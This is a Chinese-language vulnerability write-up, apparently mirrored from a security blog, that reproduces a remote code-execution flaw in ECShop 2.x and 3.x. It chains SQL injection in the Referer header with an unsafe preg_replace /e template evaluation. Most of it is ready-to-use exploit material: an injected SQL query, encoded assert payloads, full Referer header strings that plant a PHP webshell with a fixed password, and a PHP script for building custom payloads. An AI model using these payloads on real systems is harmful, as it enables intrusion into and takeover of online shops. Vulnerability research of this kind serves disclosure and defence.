# ECShop <= 2.7.x 代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2899](https://www.zhihuifly.com/t/topic/2899)

# ECShop <= 2.7.x 代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

ECShop（2.x、3.0.x、3.6.x）

## 三、复现过程

### 漏洞分析



继续看fetch函数



追踪_eval函数



$position_style变量来源于数据库中的查询结构



然后我们继续构造SQL注入，因为这段sql操作 order by部分换行了截断不了 所以需要在id处构造注释来配合num进行union查询



payload

```
SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, p.ad_height, p.position_style, RAND() AS rnd FROM `ecshop27`.`ecs_ad` AS a LEFT JOIN `ecshop27`.`ecs_ad_position` AS p ON a.position_id = p.position_id WHERE enabled = 1 AND start_time <= '1535678679' AND end_time >= '1535678679' AND a.position_id = ''/*' ORDER BY rnd LIMIT */ union select 1,2,3,4,5,6,7,8,9,10-- - 
```

函数中有一个判断



我们 id传入’/*

num传入*/ union select 1,0x272f2a,3,4,5,6,7,8,9,10– -就能绕过了



var_dump一下





再看fetch函数,传入的参数被fetch_str函数处理了



追踪fetch_str函数，这里的字符串处理流程比较复杂



```
return preg_replace("/{([^\}\{\n]*)}/e", "\$this->select('\\1');", $source); 
```

这一行意思是比如$source是xxxx{$asd}xxx,那么经过这行代码处理后就是返回this->select(‘$asd’)的结果

看看select函数



第一个字符为$时进入$this->get_val函数



我们$val没有.$又进入make_var函数



最后这里引入单引号从变量中逃逸



我们要闭合_var所以最终payload是

```
{$asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzEudHh0JywnZ2V0c2hlbGwnKQ=='));//}xxx 
```

会在网站跟目录生成1.txt 里面内容是getshell



### 2.x

phpinfo():

```
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:110:"*/ union select 1,0x27202f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10-- -";s:2:"id";s:4:"' /*";}554fcae493e564ee0dc75bdf2ebf94ca 
```

webshell:

```
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";} 
```

会在网站根目录生成`1.php`，密码：`1337`

### 3.x

phpinfo():

```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a 
```

webshell:

```
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:289:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a 
```

会在网站根目录生成`1.php`，密码：`1337`

### 小脚本

下面给出一个序列化的php脚本（第9个位置就是你想要的）：

```
<?php
$arr=array('num'=>'*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7B24617364275D3B617373657274286261736536345F6465636F646528275A6D6C735A56397764585266593239756447567564484D6F4A7A4575634768774A79776E50443977614841675A585A686243676B58314250553152624F546C644B543867506963702729293B2F2F7D787878,10-- -','id'=>'\'/*');
echo serialize($arr);
?> 
```

## 参考链接

> https://cloud.tencent.com/developer/article/1333449